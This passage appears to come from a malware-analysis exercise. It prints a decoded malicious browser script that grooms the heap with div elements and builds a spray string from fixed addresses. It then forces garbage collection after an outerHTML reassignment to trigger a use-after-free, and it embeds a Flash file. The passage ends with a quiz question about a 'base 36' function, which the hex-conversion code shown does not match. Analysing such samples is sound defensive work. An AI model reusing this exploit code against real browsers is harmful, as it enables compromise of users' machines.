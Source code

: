```html
</html>
```

After decoding, we get the following malicious script:

```js
function eYlRfX(dword) {
    var d = Number(dword)['toString'](16);
    while (d['length'] < 8) {
        d = '0' + d;
    }
    return unescape('%u' + d['substr'](4, 8) + '%u' + d['substr'](0, 4));
}
var g_arr = [];
var arrLen = 0x250;
function fun() {
    var a = 0;
    for (a = 0; a < arrLen; ++a) {
        g_arr[a] = document['createElement']('div');
    };
    var b = eYlRfX(0xdeadc0de);
    var c = 0x1a1b2000;
    while (b['length'] < 0x360) {
        if (b['length'] == (0x94 / 2)) {
            b += eYlRfX(c + 0x10 - 0x0c);
        } else if (b['length'] == (0x98 / 2)) {
            b += eYlRfX(c + 0x14 - 0x8);
        } else if (b['length'] == (0xac / 2)) {
            b += eYlRfX(c - 0x10);
        } else if (b['length'] == (0x15c / 2)) {
            b += eYlRfX(0x42424242);
        } else {
            b += eYlRfX(0x1a1b2000 - 0x10);
        }
    };
    var d = b['substring'](0, (0x340 - 2) / 2);
    try {
        this['outerHTML'] = this['outerHTML'];
    } catch (e) {}
    CollectGarbage();
    for (a = 0; a < arrLen; ++a) {
        g_arr[a]['title'] = d['substring'](0, d['length']);
    }
}
function puIHa3() {
    var a = document['getElementsByTagName']('script');
    var b = a[0];
    b['onpropertychange'] = fun;
    var c = document['createElement']('SELECT');
    c = b['appendChild'](c);
}
document['write']('<embed src=\'e56d2.swf\' width=\'100px\' height=\'100px\'></embed>');
```
### 1. What function do you identify as responsible for converting input to a base 36 string?
